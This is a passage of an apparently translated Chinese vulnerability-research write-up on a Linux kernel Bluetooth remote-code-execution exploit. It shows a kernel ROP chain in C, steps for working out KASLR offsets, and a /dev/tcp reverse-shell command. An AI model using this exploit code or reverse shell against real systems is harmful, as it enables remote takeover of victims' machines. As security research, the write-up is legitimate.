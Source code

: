 ```
  // overwritten. Therefore, the argument should be located after the ROP chain.
  build_krop_chain((uint64_t *)&data[0x360], l2cap_chan_addr + 0x3c0);
  strncpy(&data[0x3c0], remote_command, 0x40);
}
```  
  
这样，我们终于实现了 RCE。要调试我们的 stack pivot 并查看是否成功，我们可以设置*(uint64_t *)&data[0x360]=0x41414141  
并观察受控的 panic。  
#### 内核 ROP 链执行  
  
现在，我们可以编写一个大的 ROP 链来检索和执行 C 有效负载，或者编写一个较小的 ROP 链来允许我们运行任意命令。为了进行概念验证，我们已经对反向 shell 感到满意，因此执行命令对我们来说就足够了。受到  
CVE-2019-18683：利用 V4L2 子系统中的 Linux 内核漏洞 中描述的 ROP 链的启发  
，我们将构建一个调用 的链run_cmd()  
来/bin/bash -c /bin/bash</dev/tcp/IP/PORT  
生成反向 shell，最后调用do_task_dead()  
来停止内核线程。此后，蓝牙将不再工作。在更复杂的利用中，我们将恢复执行。  
  
为了确定这两种方法的偏移量，我们可以简单地检查受害者机器上的活动符号：  
```
$ sudo cat /proc/kallsyms | grep "run_cmd\|do_task_dead"
ffffffffab2ce470 t run_cmd
ffffffffab2dc260 T do_task_dead
```  
  
这里，KASLR 滑动是 0x2a200000，可以通过 grep 查找_text  
符号并减去来计算0xffffffff81000000  
：  
```
$ sudo cat /proc/kallsyms | grep "T _text"
ffffffffab200000 T _text
```  
  
从之前的两个地址中减去幻灯片可得出：  
```
#define RUN_CMD 0xffffffff810ce470
#define DO_TASK_DEAD 0xffffffff810dc260
```  
  
最后，我们可以找到pop rax ; ret  
，pop rdi ; ret  
和jmp rax  
ROPgadget的gadget，然后我们可以根据这个例子构建内核ROP链：  
```
static void build_krop_chain(uint64_t *rop, uint64_t cmd_addr) {
  *rop++ = kaslr_offset + POP_RAX_RET;
  *rop++ = kaslr_offset + RUN_CMD;
  *rop++ = kaslr_offset + POP_RDI_RET;
  *rop++ = cmd_addr;
  *rop++ = kaslr_offset + JMP_RAX;
  *rop++ = kaslr_offset + POP_RAX_RET;
  *rop++ = kaslr_offset + DO_TASK_DEAD;
  *rop++ = kaslr_offset + JMP_RAX;
}
```  
  